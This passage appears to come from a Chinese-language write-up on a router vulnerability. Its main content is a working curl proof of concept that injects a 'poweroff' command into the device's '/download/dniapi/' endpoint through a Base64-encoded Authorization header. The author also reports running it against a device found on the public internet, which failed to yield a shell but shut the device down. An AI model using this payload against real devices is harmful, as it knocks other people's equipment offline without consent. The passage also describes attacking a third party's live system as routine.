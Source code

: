 ![v1.0.01.02](../pic/iot/img1/add16.png)

下面只尝试poweroff的命令注入（效果最直观明显）。POC如下

```shell
curl -i -s -k  -X $'GET' \
    -H $'Host: 127.0.0.1' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Cookie: local_lang=%22English%22; ru=0' -H $'Authorization: Basic CnBvd2Vyb2ZmCg==' -H $'Upgrade-Insecure-Requests: 1' -H $'If-Modified-Since: Wed, 07 Apr 2021 11:28:48 GMT' -H $'Cache-Control: max-age=0' \
    -b $'local_lang=%22English%22; ru=0' \
    $'https://127.0.0.1/download/dniapi/'

```


在公网上找了个用1day打getshell失败 但使用POC成功宕机的


![v1.0.01.02](../pic/iot/img1/34.png)
